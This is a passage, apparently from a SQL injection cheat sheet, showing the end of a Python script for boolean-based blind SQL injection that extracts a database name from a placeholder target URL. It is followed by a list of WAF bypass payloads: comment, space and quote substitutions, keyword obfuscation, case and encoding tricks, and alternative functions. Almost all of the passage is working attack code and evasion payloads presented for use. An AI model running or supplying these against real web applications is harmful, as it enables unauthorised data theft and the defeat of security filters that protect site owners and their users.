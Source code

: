 ```python
                break
        
        if found_char:
            result += found_char
            print(f"Position {position}: {found_char}")
            position += 1
        else:
            break
    
    return result

# Usage
url = "http://target.com/page?id=INJECT"
database = extract_data_boolean(url, "INJECT", "SELECT database()", "Welcome")
print(f"Database: {database}")
```

### WAF Bypass Techniques
```sql
-- Comment variations
/**/
--+
-- -
#
;%00

-- Space alternatives
/**/ (MySQL)
%20
%09 (tab)
%0a (newline)
%0d (carriage return)
+ (plus)

-- Quote alternatives
' (single quote)
" (double quote)
` (backtick)
%27 (URL encoded single quote)
%22 (URL encoded double quote)

-- Keyword obfuscation
UNION -> UNION/**/SELECT
SELECT -> /*!50000SELECT*/
WHERE -> WHER/**/E

-- Case variations
union -> UNION, UnIoN, uNiOn
select -> SELECT, SeLeCt, sElEcT

-- Encoding techniques
Hex encoding: CHAR(0x41,0x42,0x43) -> 'ABC'
ASCII encoding: CHAR(65,66,67) -> 'ABC'
Unicode encoding: N'%u0041%u0042%u0043' -> 'ABC'

-- Function alternatives
ASCII() -> ORD()
SUBSTRING() -> SUBSTR(), MID(), LEFT(), RIGHT()
LENGTH() -> LEN(), CHAR_LENGTH()
```
